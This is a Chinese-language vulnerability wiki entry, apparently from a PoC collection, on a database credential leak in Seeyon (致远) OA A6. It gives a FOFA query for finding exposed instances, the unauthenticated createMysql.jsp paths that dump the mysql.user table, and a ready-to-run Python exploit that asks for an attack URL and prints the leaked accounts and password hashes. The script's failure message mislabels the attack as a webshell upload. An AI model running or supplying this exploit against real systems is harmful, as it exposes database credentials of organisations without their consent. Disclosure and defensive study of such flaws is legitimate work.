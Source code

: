 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

> [!NOTE]
>
> 致远OA A6

## FOFA

> [!NOTE]
>
> title="致远A8+协同管理软件.A6"

## 漏洞复现

当访问如下URL时执行了SQL语句 **select * from mysql.user;** 进行查询并返回到页面中

```
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/zhiyuan-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/createMysql.jsp"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/yyoa/createMysql.jsp..... \033[0m".format(target_url))
        if 'root' in response.text and response.status_code == 200:
            print("\033[36m[o] 响应为:{}\n \033[0m".format(response.text))
        else:
            print("\033[31m[x] 目标 {} 上传Webshell文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Seeyon_OA_A6__Disclosure_of_database_sensitive_information

![](http://wikioss.peiqi.tech/vuln/zhiyuan-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)